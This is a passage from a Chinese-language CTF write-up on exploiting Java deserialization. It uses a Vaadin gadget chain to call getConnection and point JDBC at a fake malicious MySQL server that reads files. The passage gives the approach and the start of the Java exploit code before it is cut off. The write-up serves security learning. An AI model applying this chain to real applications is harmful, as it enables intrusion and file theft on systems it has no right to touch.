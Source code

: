 [![](assets/1710900819-8011c7fa3a75421d1418a96a6684c952.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229162741-67a581c8-d6dc-1.png)

可以发现这里存在 `getConnection`​方法，而在 Vaadin 分析中可以得知，其链子一部分是可以调用任意属性的 getter 方法的，所以在这里思路就是：调用 `getConnection`​方法来控制 JDBC 来连恶意的 mysql 从而读取 flag，而已的 mysql 为

[https://github.com/fnmsd/MySQL\_Fake\_Server](https://github.com/fnmsd/MySQL_Fake_Server)

根据 Vaadin 的 exp 来修改下即可，最后的 exp (这里参考大头 Sec 的 Wp) 为

```plain
import com.ctf.bean.MyBean;
import com.vaadin.data.util.NestedMethodProperty;
import com.vaadin.data.util.PropertysetItem;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;


public class Vaadin_Ser {


    public static void  serialize(Object obj) throws IOException {
        ObjectOutputStream oos =new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

    public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static byte[] ser(Object obj) throws Exception{
```